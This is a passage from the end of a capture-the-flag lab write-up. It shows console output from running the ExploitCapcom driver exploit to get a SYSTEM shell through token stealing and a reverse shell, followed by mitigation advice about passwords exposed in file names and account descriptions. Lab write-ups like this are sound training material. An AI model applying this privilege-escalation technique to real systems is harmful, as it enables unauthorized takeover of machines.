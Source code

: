 And then we'll run the `ExploitCapcom` executable.

```
> .\ExploitCapcom.exe
[*] Capcom.sys exploit
[*] Capcom.sys handle was obtained as 0000000000000064
[*] Shellcode was placed at 0000023E932F0008
[+] Shellcode was executed
[+] Token stealing was successful
[+] The SYSTEM shell was launched
[*] Press any key to exit this program
```

Back on our Kali machine, we receive a reverse shell. Success! Let's grab the root flag.

![](images/root-flag.png)

***

### Mitigation

- Documents shouldn't be named after a domain password. Especially if this password is currently being used, albeit expired.

- Audit the domain and its exposed information often. An active password in the description of an account is bad practice and is pretty readily exposed with a couple steps. This needs to be considered even more when that account has privileges that can be abused to achieve privilege escalation.

### Final Thoughts

Unique box, the path to SYSTEM was very print-centric and I learned a lot about configuration and usage of print services within a domain. I didn't enjoy finding the password as a filename, as that took entirely too long and was easy to miss. Overall, though, I learned a few neat tricks that feel realistic enough to save for later. Additionally, I took some time to look through the exploit source code, since it's so readily available, and learned some interesting things about how this service abuse works, I'd recommend doing the same.
